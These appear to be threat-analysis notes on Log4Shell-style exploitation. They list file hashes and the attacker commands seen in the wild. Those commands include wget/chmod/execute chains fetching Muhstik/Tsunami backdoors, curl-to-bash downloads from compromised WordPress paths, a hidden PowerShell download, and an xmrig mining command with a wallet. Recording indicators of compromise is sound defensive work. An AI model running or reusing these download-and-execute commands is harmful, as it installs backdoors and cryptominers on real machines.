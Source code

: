 45.130.229.168:1389/Exploit.class

Exploit.class 4d040caffa28e6a0fdc0d274547cf1c7983996fc33e51b0b2c511544f030d71b
--> curl http://18.228.7.109/.log/log

log d59dba711478b6c6fdba87a9cfc9af753783c4d9120111a9ef026c9362a8e74b
--> Download of Muhstik/Tsunami Backdoor 
wget -O /tmp/pty3 http://18.228.7.109/.log/pty3; chmod +x /tmp/pty3; chmod 700 /tmp/pty3; /tmp/pty3 &
wget -O /tmp/pty4 http://18.228.7.109/.log/pty4; chmod +x /tmp/pty4; chmod 700 /tmp/pty4; /tmp/pty4 &
wget -O /tmp/pty2 http://18.228.7.109/.log/pty2; chmod +x /tmp/pty2; chmod 700 /tmp/pty2; /tmp/pty2 &
wget -O /tmp/pty1 http://18.228.7.109/.log/pty1; chmod +x /tmp/pty1; chmod 700 /tmp/pty1; /tmp/pty1 &
wget -O /tmp/pty3 http://18.228.7.109/.log/pty3; chmod +x /tmp/pty3; chmod 700 /tmp/pty3; /tmp/pty3 &
wget -O /tmp/pty5 http://18.228.7.109/.log/pty5; chmod +x /tmp/pty5; chmod 700 /tmp/pty5; /tmp/pty5 &

pty3 4f34f8f156fdf12e0817a610344b11abdee87cfbed862bf91eb7685c63696898

--> download of Muhstik/Tsunami

(curl http://210.141.105.67:80/wp-content/themes/twentythirteen/m8 || wget -qO - http://210.141.105.67:80/wp-content/themes/twentythirteen/m8)|bash
(curl http://210.141.105.67:80/wp-content/themes/twentythirteen/m8 || wget -qO - http://210.141.105.67:80/wp-content/themes/twentythirteen/m8)|bash
(curl http://159.89.182.117/wp-content/themes/twentyseventeen/ldm || wget -qO - http://159.89.182.117/wp-content/themes/twentyseventeen/ldm)|bash

m8 80faa26a8f697e16f72239936a4ef7863742c78dc2a997abaf3265cda51a5514
ldm 39db1c54c3cc6ae73a09dd0a9e727873c84217e8f3f00e357785fba710f98129


######


Exploit.class 
2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41
--> uses curl on linux for download of http://18.228.7.109/.log/log
--> and uses powershell on Windows 
(new-object System.Net.WebClient).Downloadfile('http://172.105.241.146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd')

s.cmd 8A009DEE6BFB6F79C0881F5D150EEAD92C93354D47FD1CB204791320D2151634
--> downloads xmrig 

powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://54.210.230.186:80/wp-content/themes/twentyfourteen/xmrig.exe','xmrig.exe')
xmrig.exe -o pool.supportxmr.com:5555 -u 46QBumovWy4dLJ4R8wq8JwhHKWMhCaDyNDEzvxHFmAHn92EyKrttq6LfV6if5UYDAyCzh3egWXMhnfJJrEhWkMzqTPzGzsE -p log
